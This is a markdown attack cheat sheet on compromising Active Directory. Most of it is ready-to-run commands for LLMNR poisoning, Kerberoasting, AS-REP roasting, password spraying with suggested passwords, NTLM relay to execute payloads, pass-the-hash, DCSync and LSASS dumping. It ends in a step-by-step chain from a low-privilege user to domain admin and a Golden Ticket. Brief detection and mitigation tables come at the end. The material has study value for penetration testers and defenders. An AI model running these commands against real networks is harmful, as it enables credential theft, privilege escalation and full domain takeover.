



# Active Directory Attacks

> **AD attacks exploit Kerberos, NTLM, and misconfigured permissions to steal credentials, escalate privileges, and achieve domain dominance — using the domain's own authentication infrastructure against itself.**

---

## 🧠 What Is It?

Once you have a foothold (even a low-privilege domain account), Active Directory's own protocols become your attack toolkit. Kerberos hands out encrypted tickets you can crack offline. NTLM authentication can be captured from the network and relayed. DCs can be tricked into handing you every hash in the domain.

The beauty of AD attacks: **most are not exploits — they abuse features as designed**. This makes detection extremely difficult.

---

## 🏗️ How It Works

```
Initial Access
     │
     ▼
┌─────────────────────────────────────────┐
│  Credential Attacks (no creds needed)   │
│  • AS-REP Roasting                      │
│  • LLMNR/NBT-NS Poisoning               │
│  • Password Spraying                    │
└────────────────┬────────────────────────┘
                 │ credentials
                 ▼
┌─────────────────────────────────────────┐
│  Authenticated Attacks (domain user)    │
│  • Kerberoasting                        │
│  • NTLM Relay                           │
│  • Pass-the-Hash / Pass-the-Ticket      │
└────────────────┬────────────────────────┘
                 │ elevated access
                 ▼
┌─────────────────────────────────────────┐
│  Domain Compromise                      │
│  • DCSync (dump all hashes)             │
│  • LSASS dump                           │
│  • NTDS.dit extraction                  │
└─────────────────────────────────────────┘
```

---

## 📊 Diagram



---

## ⚙️ Technical Details

### Attack Comparison Matrix

| Attack | Credentials Required | Noise Level | Success Rate | Primary Tool |
|---|---|---|---|---|
| LLMNR Poisoning | None | Low-Medium | High (enterprise) | Responder |
| AS-REP Roasting | None (user list) | Low | Low-Medium | Impacket |
| Password Spraying | None | Medium | Medium | CrackMapExec |
| Kerberoasting | Domain user | Very Low | High | Rubeus/Impacket |
| NTLM Relay | None/User | Medium | High | ntlmrelayx |
| Pass-the-Hash | NT Hash | Medium | High | CME/Impacket |
| Pass-the-Ticket | Ticket file | Low | High | Mimikatz/Rubeus |
| DCSync | DA equiv | Low | 100% if perms | Impacket |
| LSASS Dump | Local admin | High (AV triggers) | High | Mimikatz |

---

## 💥 Exploitation Step-by-Step

### 1. LLMNR/NBT-NS Poisoning

**Theory:** When Windows can't resolve a hostname via DNS, it falls back to LLMNR (UDP 5355) and NBT-NS (UDP 137) — broadcasts on the local subnet asking "anyone know where FILESERVER01 is?". An attacker answers "that's me!" and Windows sends NTLMv2 authentication.

**Requirements:** Same network segment as victim. Works best when users try to access non-existent/mistyped shares.

```bash
# Start Responder to poison and capture hashes
sudo responder -I eth0 -rdwv

# Flags:
# -r  respond to NetBIOS wredir queries
# -d  respond to DHCP broadcast queries
# -w  start WPAD rogue proxy server
# -v  verbose

# Responder will output:
# [SMB] NTLMv2-SSP Client: 10.0.0.50
# [SMB] NTLMv2-SSP Username: CORP\jsmith
# [SMB] NTLMv2-SSP Hash: jsmith::CORP:1122334455667788:HASH:BLOB

# Saved to /usr/share/responder/logs/
ls /usr/share/responder/logs/

# Crack captured NTLMv2 hashes
hashcat -m 5600 /usr/share/responder/logs/SMB-NTLMv2-*.txt \
  /usr/share/wordlists/rockyou.txt \
  -r /usr/share/hashcat/rules/best64.rule

# Or john
john /usr/share/responder/logs/SMB-NTLMv2-*.txt \
  --wordlist=/usr/share/wordlists/rockyou.txt
```

**Advanced: Force LLMNR triggers**
```bash
# From Windows — trigger authentication to attacker
net use \\attacker_ip\share  
# Or just type \\NONEXISTENTSERVER in Explorer address bar

# From Linux — print spooler trigger
python3 printerbug.py corp.local/user:pass@TARGET.corp.local attacker_ip
```

---

### 2. AS-REP Roasting

**Theory:** Normally, Kerberos requires a client to prove they know the password BEFORE getting a TGT (pre-authentication using an encrypted timestamp). If an account has `DONT_REQ_PREAUTH` set, anyone can request a TGT for that account. The KDC returns a TGT encrypted with the user's password hash — **take it offline and crack it**.



**Find vulnerable accounts:**
```powershell
# PowerView
Get-DomainUser -UACFilter DONT_REQ_PREAUTH | Select samaccountname

# LDAP query
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $true} -Properties DoesNotRequirePreAuth |
  Select-Object SamAccountName
```

**Exploit:**
```bash
# Impacket - no credentials, just username list
GetNPUsers.py corp.local/ -usersfile users.txt \
  -format hashcat -dc-ip 10.0.0.1 -no-pass

# Impacket - with credentials (finds all at once)
GetNPUsers.py corp.local/user:pass \
  -format hashcat -dc-ip 10.0.0.1 -request

# Rubeus (from Windows)
Rubeus.exe asreproast /format:hashcat /outfile:asrep_hashes.txt

# Rubeus for specific user
Rubeus.exe asreproast /user:jsmith /format:hashcat

# Crack
hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt
hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt \
  -r /usr/share/hashcat/rules/best64.rule
hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt \
  --show  # show cracked
```

**Hash format:**
```
$krb5asrep$23$jsmith@CORP.LOCAL:1a2b3c...HASH...4d5e6f
                ^23 = RC4 (weaker, cracks faster)
                ^17 = AES128
                ^18 = AES256
```

---

### 3. Password Spraying

**Theory:** Instead of brute-forcing one account with many passwords (triggers lockout), try ONE password against MANY accounts. Check lockout policy first — typically try 1 password per 30 minutes when threshold is 5.

**Critical: Check lockout policy first!**
```powershell
# PowerView
Get-DomainDefaultPasswordPolicy

# Native
net accounts /domain

# CrackMapExec
crackmapexec smb 10.0.0.1 -u user -p pass --pass-pol
```

Output to look for:
```
Minimum password length: 8
Account lockout threshold: 5 (DANGER: only 5 attempts before lockout)
Lockout duration: 30 minutes
Observation window: 30 minutes
```

**Spray attacks:**
```bash
# CrackMapExec - SMB
crackmapexec smb 10.0.0.1 -u users.txt -p 'Winter2024!' \
  --continue-on-success

# CrackMapExec - multiple passwords (careful with lockout!)
crackmapexec smb 10.0.0.1 -u users.txt \
  -p 'Winter2024!,Summer2024!,Fall2024!' --no-bruteforce

# kerbrute (faster, less noisy - uses Kerberos)
kerbrute passwordspray -d corp.local --dc 10.0.0.1 \
  users.txt 'Winter2024!'

# Spray with spray.sh
spray.sh -smb 10.0.0.1 users.txt passwords.txt 1 35 CORP

# DomainPasswordSpray (PowerShell)
Invoke-DomainPasswordSpray -Password 'Winter2024!' -OutFile spray_results.txt

# LDAP spray (bypasses some detection)
crackmapexec ldap 10.0.0.1 -u users.txt -p 'Winter2024!'

# Kerberos spray with Rubeus
Rubeus.exe brute /users:users.txt /password:'Winter2024!' /dc:10.0.0.1 /domain:corp.local
```

**Good password candidates:**
```
Seasonal:  Winter2024!, Summer2024!, Fall2024!, Spring2024!
Company:   Corpname1!, Corpname@2024
Common:    Password1!, Welcome1!, P@ssw0rd
Default:   Changeme1!, Admin123!
Month:     January2024!, February2024!
```

---

### 4. Kerberoasting

**Theory:** Any authenticated domain user can request a TGS (service ticket) for ANY service with an SPN. The TGS is encrypted with the service account's NT hash. Extract the ticket, crack offline.



**Find targets:**
```powershell
# PowerView - find kerberoastable accounts
Get-DomainUser -SPN | Select-Object samaccountname,serviceprincipalname,memberof

# Find ones in privileged groups
Get-DomainUser -SPN | Where-Object {$_.memberof -match "Admin"}

# Native AD module
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} \
  -Properties ServicePrincipalName | Select SamAccountName, ServicePrincipalName
```

**Exploit:**
```bash
# Impacket - request all TGS tickets
GetUserSPNs.py corp.local/user:pass -dc-ip 10.0.0.1 -request

# Output to file
GetUserSPNs.py corp.local/user:pass -dc-ip 10.0.0.1 \
  -request -outputfile kerberoast.txt

# Request specific account
GetUserSPNs.py corp.local/user:pass -dc-ip 10.0.0.1 \
  -request-user svc_sql

# Request as hash only (no outputfile)
GetUserSPNs.py corp.local/user:pass -dc-ip 10.0.0.1 \
  -request -no-preauth
```

```powershell
# Rubeus (from Windows)
Rubeus.exe kerberoast /format:hashcat /outfile:kerb_hashes.txt

# Rubeus - only RC4 tickets (faster to crack)
Rubeus.exe kerberoast /tgtdeleg /rc4opsec /outfile:kerb_hashes.txt

# Rubeus - specific SPN
Rubeus.exe kerberoast /spn:"MSSQLSvc/db.corp.local:1433" /format:hashcat

# PowerView + native
Add-Type -AssemblyName System.IdentityModel
$SPN = "MSSQLSvc/db.corp.local:1433"
$ticket = New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $SPN
$ticketBytes = $ticket.GetRequest()
[System.IO.File]::WriteAllBytes("C:\temp\ticket.bin", $ticketBytes)

# Invoke-Kerberoast (PowerSploit)
Invoke-Kerberoast -OutputFormat Hashcat | Select-Object -ExpandProperty Hash
```

**Crack:**
```bash
# hashcat - RC4 (mode 13100)
hashcat -m 13100 kerb_hashes.txt /usr/share/wordlists/rockyou.txt

# With rules (much higher success rate)
hashcat -m 13100 kerb_hashes.txt /usr/share/wordlists/rockyou.txt \
  -r /usr/share/hashcat/rules/best64.rule \
  -r /usr/share/hashcat/rules/d3ad0ne.rule

# AES (mode 19600 = AES128, 19700 = AES256) - slower
hashcat -m 19600 kerb_hashes.txt /usr/share/wordlists/rockyou.txt

# Show cracked
hashcat -m 13100 kerb_hashes.txt --show

# john
john kerb_hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt \
  --format=krb5tgs
```

**Hash format:**
```
$krb5tgs$23$*svc_sql$CORP.LOCAL$MSSQLSvc/db.corp.local:1433*$1a2b...HASH
            ^23 = RC4, preferred for cracking speed
```

**Targeted Kerberoasting via ACL:**
If you have `GenericWrite` on a user account:
```powershell
# Set SPN on target account you have GenericWrite on
Set-DomainObject -Identity victim_user \
  -Set @{serviceprincipalname='fakespn/fakehost.corp.local'}

# Now kerberoast them
GetUserSPNs.py corp.local/user:pass -dc-ip DC -request-user victim_user

# Clean up SPN after cracking
Set-DomainObject -Identity victim_user \
  -Clear serviceprincipalname
```

---

### 5. NTLM Relay Attacks

**Theory:** Instead of cracking the captured NTLMv2 hash, relay it to another machine to authenticate AS the victim. If the victim is admin on target, you get code execution.

**Requirements:** 
- SMB signing disabled on target (most workstations, some servers by default)
- Cannot relay back to the source (same machine)

```bash
# Check SMB signing across subnet
crackmapexec smb 10.0.0.0/24 --gen-relay-list targets.txt
# Adds machines with signing=False to targets.txt

nmap --script smb2-security-mode -p 445 10.0.0.0/24
```

**Basic NTLM Relay to SMB:**
```bash
# Terminal 1: Disable SMB/HTTP in Responder (we relay, not capture)
# Edit /etc/responder/Responder.conf:
# SMB = Off
# HTTP = Off

sudo responder -I eth0 -rdwv

# Terminal 2: ntlmrelayx
ntlmrelayx.py -tf targets.txt -smb2support

# When relay succeeds, dumps SAM hashes of target:
# [*] Authenticating against smb://10.0.0.50 as CORP/jsmith SUCCEED
# [*] SMBD-Thread-4: Dumping SAM Hashes
# Administrator:500:aad3:HASH:::
```

**Relay to get shell:**
```bash
ntlmrelayx.py -tf targets.txt -smb2support -i
# -i = interactive SMB shell when relay succeeds
# Then connect: nc 127.0.0.1 11000

ntlmrelayx.py -tf targets.txt -smb2support -e payload.exe
# -e = execute payload on target

ntlmrelayx.py -tf targets.txt -smb2support \
  -c "powershell -enc ENCODEDPAYLOAD"
```

**Relay to LDAP (much more powerful):**
```bash
# Create computer account and set RBCD
ntlmrelayx.py -t ldap://DC.corp.local --delegate-access \
  --add-computer AttackerPC --escalate-user AttackerPC$

# Dump domain info via LDAP relay
ntlmrelayx.py -t ldap://DC.corp.local -wh attacker.corp.local \
  --no-smb-server --http-port 80

# Add user to Domain Admins via LDAP relay
ntlmrelayx.py -t ldap://DC.corp.local --escalate-user lowprivuser
```

**Force authentication (trigger relay):**
```bash
# PrinterBug - force DC to authenticate to you (requires domain user)
python3 printerbug.py corp.local/user:pass@DC.corp.local attacker_ip

# PetitPotam - force NTLM auth via MS-EFSRPC (no creds needed in older versions!)
python3 PetitPotam.py attacker_ip DC.corp.local

# Combined with ntlmrelayx targeting AD CS
ntlmrelayx.py -t http://CA.corp.local/certsrv/certfnsh.asp \
  --adcs --template DomainController
# When DC auth arrives → get DC certificate → DCSync!
```

---

### 6. Pass-the-Hash (PtH)

**Theory:** NT hashes can be used DIRECTLY for NTLM authentication without knowing the plaintext password. "Hash is the password" for NTLM.

```bash
# CrackMapExec - test hash across subnet
crackmapexec smb 10.0.0.0/24 -u Administrator \
  -H aad3b435b51404eeaad3b435b51404ee:32ed87bdb5fdc5e9cba88547376818d4

# CrackMapExec - execute command
crackmapexec smb 10.0.0.10 -u Administrator \
  -H NTHASH -x "whoami"

# Impacket psexec (creates service)
psexec.py -hashes :NTHASH CORP/Administrator@10.0.0.10

# Impacket wmiexec (WMI, quieter)
wmiexec.py -hashes :NTHASH CORP/Administrator@10.0.0.10

# Impacket smbexec
smbexec.py -hashes :NTHASH CORP/Administrator@10.0.0.10

# evil-winrm (WinRM, port 5985)
evil-winrm -i 10.0.0.10 -u Administrator -H NTHASH

# Mimikatz PTH (creates new process with impersonated token)
sekurlsa::pth /user:Administrator /domain:corp.local \
  /ntlm:32ed87bdb5fdc5e9cba88547376818d4 /run:cmd.exe
```

**Note:** Pass-the-Hash requires:
- SMB signing disabled OR
- WinRM enabled (evil-winrm)
- Remote Registry enabled
- Target has local admin with that hash

---

### 7. Pass-the-Ticket (PtT)

**Theory:** Steal Kerberos tickets from memory and reuse them to authenticate as the victim — even after their password changes (tickets valid until expiry, default 10 hours).

```powershell
# Dump tickets from memory with Mimikatz
sekurlsa::tickets /export
# Creates .kirbi files for each ticket

# List tickets
sekurlsa::tickets
kerberos::list

# Inject specific ticket
kerberos::ptt C:\temp\[0;3e7]-2-0-40e00000-jsmith@krbtgt-CORP.LOCAL.kirbi

# Or inject all exported tickets
kerberos::ptt C:\temp\

# Verify
klist
```

```powershell
# Rubeus - dump all tickets
Rubeus.exe dump

# Dump specific user's tickets
Rubeus.exe dump /user:Administrator /service:krbtgt

# Inject ticket from base64
Rubeus.exe ptt /ticket:DOIF...BASE64TICKET...==

# Overpass the hash - NT hash → TGT
Rubeus.exe asktgt /domain:corp.local /user:Administrator \
  /rc4:NTHASH /ptt
```

```bash
# From Linux - export ticket to ccache
export KRB5CCNAME=/tmp/jsmith.ccache
python3 gettgtpkinit.py ...  # or use Impacket

# Use with Impacket
wmiexec.py -k -no-pass CORP/Administrator@10.0.0.10
```

---

### 8. DCSync

**Theory:** Domain Controllers replicate their databases with each other using `DRS-GetNCChanges`. Any account with `DS-Replication-Get-Changes` + `DS-Replication-Get-Changes-All` can request a "replication" of all AD objects — including password hashes. This mimics what DCs do normally, making it stealthy.

**Requirements:**
- Membership in: Domain Admins, Enterprise Admins, Administrators, or Domain Controllers
- Or explicit DCSync ACE granted to account

**Check if you have DCSync rights:**
```powershell
Get-ObjectAcl -Identity "DC=corp,DC=local" -ResolveGUIDs |
  Where-Object {$_.ObjectAceType -match "DS-Replication"}
```

**Exploit with Impacket:**
```bash
# Dump all hashes (all users)
secretsdump.py corp.local/DA_user:pass@DC.corp.local -just-dc

# Dump specific user (stealth - request only what you need)
secretsdump.py corp.local/DA_user:pass@DC.corp.local \
  -just-dc-user krbtgt
secretsdump.py corp.local/DA_user:pass@DC.corp.local \
  -just-dc-user Administrator

# With hash (pass-the-hash)
secretsdump.py -hashes :NTHASH corp.local/DA_user@DC.corp.local -just-dc

# From NTDS.dit file (offline)
secretsdump.py -ntds NTDS.dit -system SYSTEM.hive LOCAL

# Output format
# corp.local\Administrator:500:aad3b435...:32ed87bdb5fdc5e9cba88547376818d4:::
# corp.local\krbtgt:502:aad3b435...:819af826bb148e603acb0f33d17632f8:::
# [*] Kerberos keys grabbed:
# corp.local\krbtgt:aes256-cts-hmac-sha1-96:AESKEY
```

**Exploit with Mimikatz:**
```powershell
# From DC or with DA privileges
lsadump::dcsync /domain:corp.local /user:krbtgt
lsadump::dcsync /domain:corp.local /user:Administrator
lsadump::dcsync /domain:corp.local /all /csv
```

**DCSync-like via Volume Shadow Copy (offline, as local admin on DC):**
```powershell
# Create shadow copy of C:
vssadmin create shadow /for=C:
# Copy NTDS.dit and SYSTEM from shadow
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\temp\
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\temp\
# Parse offline
secretsdump.py -ntds C:\temp\NTDS.dit -system C:\temp\SYSTEM LOCAL
```

---

### 9. LSASS Dumping

**Theory:** `lsass.exe` (Local Security Authority Subsystem Service) caches credentials in memory for SSO purposes. Dumping it gives NT hashes, plaintext passwords (older OS/config), Kerberos tickets.

**Mimikatz (classic, high detection):**
```powershell
# Interactive
mimikatz.exe
privilege::debug       # Get SeDebugPrivilege
sekurlsa::logonpasswords  # All creds in LSASS

# One-liner
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit" > creds.txt

# Dump LSASS to file (parse offline, bypass AV)
mimikatz.exe "privilege::debug" "sekurlsa::minidump lsass.dmp" \
  "sekurlsa::logonpasswords" "exit"
```

**Process Dump → offline parsing (bypasses realtime AV):**
```powershell
# Method 1: Sysinternals ProcDump
procdump.exe -accepteula -ma lsass.exe lsass.dmp

# Method 2: Task Manager (GUI)
# Open Task Manager → Details → lsass.exe → Create dump file

# Method 3: comsvcs.dll (living off the land)
$lsass = Get-Process lsass
rundll32.exe C:\Windows\system32\comsvcs.dll, MiniDump $lsass.Id C:\temp\lsass.dmp full

# Method 4: PowerShell
$lsassPID = (Get-Process lsass).Id
$dumpFile = "C:\temp\lsass.dmp"
[System.Runtime.InteropServices.Marshal]::WriteByte([System.IntPtr]::Zero, 0)  # trigger dump

# Parse dump offline with Mimikatz
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonpasswords" "exit"

# Parse dump with pypykatz (Linux)
pip3 install pypykatz
pypykatz lsa minidump lsass.dmp
```

**Remote LSASS dumping via CrackMapExec:**
```bash
crackmapexec smb 10.0.0.10 -u admin -p pass -M lsassy
crackmapexec smb 10.0.0.10 -u admin -p pass -M mimikatz
crackmapexec smb 10.0.0.10 -u admin -H HASH -M nanodump
```

**Bypass Credential Guard (Windows 10+):**
```powershell
# Credential Guard protects NTLM hashes and Kerberos creds
# Can still get:
# - NT hashes from domain accounts (not cached in LSASS differently)
# - Via DCSync if DA
# - Via DPAPI masterkey decryption
# Check if CG is enabled
Get-ItemProperty "HKLM:\SYSTEM\CurrentControlSet\Control\DeviceGuard" | 
  Select-Object EnableVirtualizationBasedSecurity
```

---

### Full Attack Chain: Initial Access to Domain Admin

```bash
# SCENARIO: Starting from compromised workstation, low-priv domain user

# 1. Gather environment info
whoami /all && ipconfig /all && net group "Domain Admins" /domain

# 2. Start Responder (background, capture hashes)
sudo responder -I eth0 -rdwv &

# 3. Run BloodHound to map paths
bloodhound-python -u lowpriv -p 'pass123' -d corp.local -c All -ns 10.0.0.1

# 4. Kerberoast all SPNs
GetUserSPNs.py corp.local/lowpriv:pass123 -dc-ip 10.0.0.1 -request \
  -outputfile kerb.txt

# 5. AS-REP roast
GetNPUsers.py corp.local/lowpriv:pass123 -dc-ip 10.0.0.1 \
  -request -format hashcat -outputfile asrep.txt

# 6. Crack hashes
hashcat -m 13100 kerb.txt /usr/share/wordlists/rockyou.txt -r rules/best64.rule
hashcat -m 18200 asrep.txt /usr/share/wordlists/rockyou.txt

# 7. [After cracking svc_sql:SQLpassword1]
# Test access
crackmapexec smb 10.0.0.0/24 -u svc_sql -p 'SQLpassword1' --continue-on-success

# 8. [svc_sql is local admin on DB server 10.0.0.20]
# Dump LSASS on DB server
crackmapexec smb 10.0.0.20 -u svc_sql -p 'SQLpassword1' -M lsassy

# 9. [Got Domain Admin hash from DB server's LSASS]
# Verify
crackmapexec smb 10.0.0.1 -u DA_user -H <HASH> --domain corp.local

# 10. DCSync - dump all hashes
secretsdump.py -hashes :<DA_HASH> corp.local/DA_user@10.0.0.1 -just-dc

# 11. Create Golden Ticket for persistence
ticketer.py -nthash <KRBTGT_HASH> \
  -domain-sid S-1-5-21-3623811015-3361044348-30300820 \
  -domain corp.local Administrator

# Done — full domain compromise
```

---

## 🛠️ Tools

| Tool | Install | Key Commands |
|---|---|---|
| **Responder** | `apt install responder` | `responder -I eth0 -rdwv` |
| **Impacket** | `pip3 install impacket` | `GetUserSPNs.py`, `secretsdump.py` |
| **Mimikatz** | GitHub releases | `sekurlsa::logonpasswords` |
| **Rubeus** | GitHub (GhostPack) | `kerberoast`, `asreproast`, `dump` |
| **CrackMapExec** | `pip3 install crackmapexec` | `cme smb`, `cme ldap` |
| **hashcat** | `apt install hashcat` | `-m 13100`, `-m 18200`, `-m 5600` |
| **ntlmrelayx** | Part of Impacket | `ntlmrelayx.py -tf targets.txt` |
| **kerbrute** | GitHub releases | `passwordspray`, `userenum` |
| **pypykatz** | `pip3 install pypykatz` | `lsa minidump lsass.dmp` |

---

## 🔍 Detection

| Attack | Key Event IDs | Indicators |
|---|---|---|
| Kerberoasting | 4769 | RC4 TGS requests, many requests from single host |
| AS-REP Roasting | 4768 | Requests without pre-authentication |
| Password Spraying | 4625 | Many failed logins across different accounts from same source |
| NTLM Relay | 4624 | Type 3 NTLM logon from unexpected source |
| LLMNR Poisoning | Network | LLMNR/NBT-NS traffic on wire, broadcast responses |
| DCSync | 4662 | Replication request from non-DC IP |
| LSASS Dump | 4656, Sysmon 10 | Process accessing LSASS memory |
| Pass-the-Hash | 4624 | NTLM logon with hash but no prior password auth |

---

## 🛡️ Mitigation

| Attack | Mitigation |
|---|---|
| Kerberoasting | Use Managed Service Accounts (gMSA) with 120+ char random passwords |
| AS-REP Roasting | Enable pre-authentication on all accounts |
| Password Spraying | Smart lockout, MFA, password blacklisting |
| NTLM Relay | Enable SMB signing (GPO), LDAP signing + channel binding, disable NTLM |
| LLMNR/NBT-NS | Disable via GPO: `Turn off multicast name resolution` |
| DCSync | Audit DS-Replication ACEs, alert on non-DC replication |
| LSASS Dump | Credential Guard, Protected Users group, RunAsPPL for LSASS |
| Pass-the-Hash | Credential Guard, local admin password uniqueness (LAPS) |

---

## 📚 References

- [Kerberoasting - Room362](https://room362.com/post/2016/kerberoast-pt1/)
- [AS-REP Roasting - HarmJ0y](https://www.harmj0y.net/blog/activedirectory/roasting-as-reps/)
- [Responder GitHub](https://github.com/lgandx/Responder)
- [ntlmrelayx - dirkjanm](https://blog.fox-it.com/2017/05/09/relaying-credentials-everywhere-with-ntlmrelayx/)
- [Mimikatz GitHub](https://github.com/gentilkiwi/mimikatz)
- [Rubeus GitHub](https://github.com/GhostPack/Rubeus)
- [Impacket Examples](https://github.com/fortra/impacket/tree/master/examples)
- [DCSync - Sean Metcalf](https://adsecurity.org/?p=1729)
- [Pass the Hash - Passing the Hash Toolkit](https://www.sans.org/blog/protecting-privileged-domain-accounts-pass-the-hash-attacks/)
- CVE-2014-6324 (MS14-068): Kerberos PAC forgery
